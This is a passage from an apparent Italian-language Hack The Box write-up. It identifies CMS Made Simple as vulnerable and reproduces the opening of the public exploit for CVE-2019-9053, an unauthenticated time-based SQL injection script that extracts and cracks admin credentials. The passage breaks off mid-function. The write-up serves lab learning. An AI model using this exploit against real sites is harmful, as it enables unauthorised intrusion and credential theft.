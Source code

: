 ![Wappalyzer](/images/htb-writeup/wappalyzer.png)

Facendo una ricerca su internet troviamo che CMS Made Simple è vulnerabile a SQL
Injection. Vediamo il codice dell'exploit:
```python
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053

import requests
from termcolor import colored
import time
from termcolor import cprint
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

options, args = parser.parse_args()
if not options.url:
    print "[+] Specify an url target"
    print "[+] Example usage (no cracking password): exploit.py -u http://target-uri"
    print "[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist"
    print "[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based."
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = ""
if options.wordlist:
    wordlist += options.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
```